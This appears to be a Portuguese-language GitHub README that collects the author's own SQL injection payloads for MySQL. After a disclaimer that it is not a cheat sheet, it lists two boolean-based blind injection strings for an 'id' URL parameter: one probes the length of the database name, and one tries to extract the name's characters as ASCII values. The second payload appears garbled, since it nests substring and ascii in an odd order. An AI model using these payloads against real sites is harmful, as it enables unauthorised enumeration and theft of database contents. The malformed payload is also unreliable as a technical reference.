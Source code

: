 # Minhas-payload-sql-injection

# Esse repositório não é cheat sheet de sql injection.

**========Payload MySQL========**

**EXTRAINDO número de caracteres DA DATABASE.**

  ?id=1' AND LENGTH(DATABASE()) > 2 --+
  
**EXTRAINDO OS CARACTERES DO BANCO DE DADOS EM ASCII.**

  ?id=1' AND substring(ascii(DATABASE()),1,8) >= 115--+-